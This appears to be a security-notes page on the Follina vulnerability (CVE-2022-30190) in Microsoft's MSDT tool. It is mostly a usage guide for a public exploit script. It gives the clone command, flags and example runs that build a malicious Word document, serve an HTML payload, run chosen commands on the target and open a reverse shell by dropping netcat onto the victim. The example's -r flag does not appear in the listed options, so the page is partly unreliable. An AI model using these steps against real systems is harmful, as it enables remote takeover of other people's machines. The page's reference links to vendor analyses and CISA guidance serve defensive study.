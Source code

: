```yaml
---
title : "CVE-2022-30190"
# pre : ' '
description : "Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'."
date : 2022-06-02T11:07:21+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'

![Example](images/example1.png)

### Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

### Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

### Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

### Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```

![Example](images/example2.png)

### URL list

* [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
* [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
* [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
* [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
